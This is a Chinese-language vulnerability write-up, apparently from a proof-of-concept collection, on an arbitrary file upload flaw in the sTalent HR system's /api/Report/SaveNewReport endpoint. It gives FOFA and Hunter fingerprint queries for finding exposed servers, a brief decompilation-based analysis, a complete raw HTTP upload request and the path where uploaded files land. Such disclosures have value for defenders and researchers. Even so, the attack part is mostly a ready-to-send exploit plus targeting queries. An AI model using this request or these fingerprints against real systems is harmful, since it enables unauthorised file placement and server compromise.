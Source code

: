 # sTalent系统前台任意文件上传

## 漏洞厂商

北京朗新天霁软件技术有限公司

## 厂商官网

http://www.hrsoft.com.cn/  

## 产品

sTalent系统

## 指纹

**FOFA**

```
"/js/Comm/loadingsmall.js" && icon_hash="1772087922"
```

**Hunter**

```
web.body="/js/Comm/loadingsmall.js" && web.icon=="4859e39ae6c0f1f428f2126a6bb32bd9"
```

漏洞地址:`/api/Report/SaveNewReport`

漏洞分析:

在`Web.Api.dll`文件中进行反混淆，得到源代码。程序采用MVC结构

`Web.Api.Controllers.Report`类下的`SaveNewReport`存在文件上传漏洞

由于存在鉴权，需要方法添加注释

![](https://ckcsec.oss-cn-hangzhou.aliyuncs.com/img/image-20240624183117550.png)

这里满足，并且在`httpPostedFile`对象后调用了`SaveAs`方法

存储路径在`/report\\newReportFiles`下

## POC

```
POST /api/Report/SaveNewReport?rptId=1 HTTP/1.1
Host: x.x.x.x
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ASP.NET_SessionId=qreedyvzmub5afo1nba2i22d
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryxzpiOaIdFLPXG0zW
Content-Length: 177 

------WebKitFormBoundaryxzpiOaIdFLPXG0zW
Content-Disposition: form-data; name="file";filename="1.txt"
Content-Type: image

111
------WebKitFormBoundaryxzpiOaIdFLPXG0zW—
```

文件路径:

`/report/newReportFiles/1_1.txt`

`report/newReportFiles/{rptId}_filename`

新版本路径在:`/api/Report/Report/SaveNewReport`

![](https://ckcsec.oss-cn-hangzhou.aliyuncs.com/img/image-20240624183400986.png)